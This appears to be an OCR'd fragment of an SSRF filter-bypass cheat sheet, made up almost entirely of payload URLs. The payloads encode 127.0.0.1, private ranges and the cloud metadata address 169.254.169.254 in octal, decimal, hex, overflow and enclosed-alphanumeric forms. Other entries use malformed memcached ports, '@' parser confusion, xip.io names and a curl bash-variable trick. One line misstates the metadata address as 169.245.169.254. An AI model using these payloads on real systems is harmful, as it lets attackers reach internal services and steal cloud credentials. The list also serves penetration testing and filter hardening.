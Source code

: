 [http://0177.0.0.1/](.) --> (127.0.0.1)

[http://2130706433/](.) --> (127.0.0.1)

[http://3232235521/] (.)--> (192.168.0.1)

[http://3232235777/](.) --> (192.168.1.1)

- With malformed URLs, useful when port is blacklisted

[localhost:+11211aaa](.)

[localhost:00011211aaaa](.)

[localhost:11211](.)

- With shorthanding IP addresses by dropping zeros, useful when full IP address is whitelisted

[http://0/](.)

[http://127.1/](.)

[http://127.0.1/](.)

-With enclosed alphanumerics, useful when just plain ASCII characters are blacklisted but servers interpret enclosed alphanumerics as normal.

[http://①②⑦.⓪.⓪.①/](.)

[http://⓵⓶⓻.⓪.⓪.⓵/](.)

- With bash variables (cURL only)

curl -v "http://attacker$google.com"; $google = ""

Against weak parsers (these go to http://127.2.2.2:80)

[http://127.1.1.1:80\@127.2.2.2:80/](.)

[http://127.1.1.1:80\@@127.2.2.2:80/](.)

[http://127.1.1.1:80:\@@127.2.2.2:80/](.)

[http://127.1.1.1:80#\@127.2.2.2:80/](.)

Bypass 169.254.169.254 address

-The most common bypass for AWS addresses is changing them to get past the blacklist of 169.245.169.254.

[http://169.254.169.254.xip.io/](.)

[http://1ynrnhl.xip.io](.)

[http://425.510.425.510](.) – dotted decimal with overflow

[http://2852039166](.)– dotless decimal

[http://7147006462](.) – dotless decimal with overflow

[http://0xA9.0xFE.0xA9.0xFE](.) – dotted hexadecimal

[http://0xA9FEA9FE](.) – dotless hexadecimal

[http://0x41414141A9FEA9FE](.) – dotless hexadecimal with overflow
